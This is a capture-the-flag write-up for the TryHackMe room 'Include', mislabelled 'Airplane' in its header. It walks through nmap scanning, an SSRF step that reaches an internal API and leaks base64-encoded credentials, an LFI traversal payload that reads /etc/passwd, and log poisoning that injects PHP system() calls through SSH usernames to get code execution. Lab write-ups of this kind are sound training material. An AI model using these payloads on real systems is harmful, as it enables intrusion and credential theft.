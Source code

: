 ```yaml
---
title: THM - Airplane
author: Throupy
date: 2024-06-09 00:00:00 +0000
categories: [CTF]
tags: [CTF, Web]
---
```


A writeup for the TryHackMe room called `Include`


The TryHackMe room "Include" demonstrates exploiting a web application through Local File Inclusion (LFI) vulnerabilities. By performing thorough enumeration and leveraging SSRF and LFI techniques, sensitive information was extracted, leading to credential discovery and eventually achieving remote code execution via log poisoning.

The IP for my machine was `10.10.134.223`, first add it to hosts file.
```bash
echo "10.10.134.223 include.thm" | sudo tee -a /etc/hosts
```

## Enumeration
Starting with an `nmap` scan using default scripts (`-sC`), service detection (`-sV`), and scanning all ports (`-p-`). `-oA` means output all formats, this is just so I can refer back to it easily
```
nmap -sC -sV -oA include_scan -p- include.thm
```

We can see a number of open ports:
```
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp     Postfix smtpd
110/tcp   open  pop3     Dovecot pop3d
143/tcp   open  imap     Dovecot imapd (Ubuntu)
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp   open  ssl/pop3 Dovecot pop3d
4000/tcp  open  http     Node.js (Express middleware)
50000/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
```
SSH is very rarely the initial access point, and the mail ports (25, 110, 143, 993, 955) require more effort to query. Let's first check out the web servers

## HTTP servers on 50000 and 4000
The web app on port 50000 just gives us a "restricted portal" message, requiring a login. We have no credentials at the moment so this is not helpful.

Web app on port 4000 just shows a message saying "log in with guest/guest, so let's do it.
![Login](/assets/img/include-thm-4000-site.png)

After logging in, we see a home page
![Home](/assets/img/include-thm-4000-home.png)

Let's try viewing our profile
![Profile](/assets/img/include-thm-4000-profile.png)

### SSRF
There is some funny looking information in the details section, almost as if we are seeing the raw key / value pairs. Let's try using the activity recommendation functionality to overwrite some of these variables e.g. setting `isAdmin` to `true`
![IsAdmin](/assets/img/include-thm-4000-isadmin-true.png)

After submitting this, the value updates in our details section, and we can see an API item in the navigation bar, let's navigate to this.

We can see the following:
![API](/assets/img/include-thm-4000-api-dashboard.png)

### API - Initial Credentials
It looks like we can get some credentials for the `SysMon` application on port 50000. Let's hit the `getAllAdmins101099991` endpoint on the API. The API is hosted locally, meaning we can only hit it from within the application. Notice that on the navigation bar, we have a "update banner image" functionality, where we can specify a URL. 
![Banner](/assets/img/include-thm-4000-update-banner.png)

Let's specify the endpoint's URL (`http://127.0.0.1:5000/getAllAdmins101099991`)

This is what we get back:
```
data:application/json; charset=utf-8;base64,eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0=
```

Note that it is base64 encoded, we can decode it:
```zsh
echo "eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0=" | base64 -d

{
    "ReviewAppUsername":"admin",
    "ReviewAppPassword":"admin@!!!",
    "SysMonAppUsername":"administrator",
    "SysMonAppPassword":"S$9$qk6d#**LQU"
}
```

### SysMon application
We got `SysMon` application credentials, so let's log into the application.
On the home page we can get the first flag
![50000Home](/assets/img/include-thm-50000-home.png)

After reviewing the source code of the website, we can notice that the `src` attribute of the `img` element is `src="profile.php?img=profile.png"`. Let's navigate to this URL and capture the request using the burp suite proxy. Send the request to repeater and let's try some directory traversal.

### LFI
Trying common payloads such as `../../../../etc/passwd` did not yield any results, let's use intruder to use an LFI payload wordlist such as [this](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt) one 

Eventually, we can find a payload which will give us `/etc/passwd`:
```
http://include.thm:50000/profile.php?img=......///......///......///......///......///etc/passwd
[SNIP]
joshua:x:1002:1002:,,,:/home/joshua:/bin/bash
charles:x:1003:1003:,,,:/home/charles:/bin/bash
```
Revealing two users, joshua and charles.

### Trying to steal `id_rsa`
I tried stealing `id_rsa` for both users, but did not get anywhere. Then I considered the mail ports which were open, perhaps we can perform some log file poisoning to get RCE via our LFI vulnerability. Let's check for some common log files using the same LFI format from before (`......///......///......///......///......///`).

### Log Poisoning
I couldn't manage to get the apache `access.log` for some reason, but I could get /var/log/auth.log, which shows SSH authentication attempts.

Let's try and embed our PHP payload, which will list the current directory, into the SSH username.
```zsh
ssh '<?php system("ls"); ?>'@include.thm
```

If this fails, use hydra:
```zsh
hydra -u include.thm -p 'test' ssh -l '<?php system("ls"); ?>' include.thm
```

Now, when we read the contents of `auth.log` using our LFI:
```zsh
505eb0fb8a9f32853b4d955e1f9123ea.txt
api.php
auth.php
dashboard.php
index.php
[SNIP]
```

And with that, we get the file name, then we can modify our payload to cat the file:
```zsh
ssh '<?php system("cat 505eb0fb8a9f32853b4d955e1f9123ea.txt"); ?>'@include.thm
```

And we get the final flag.
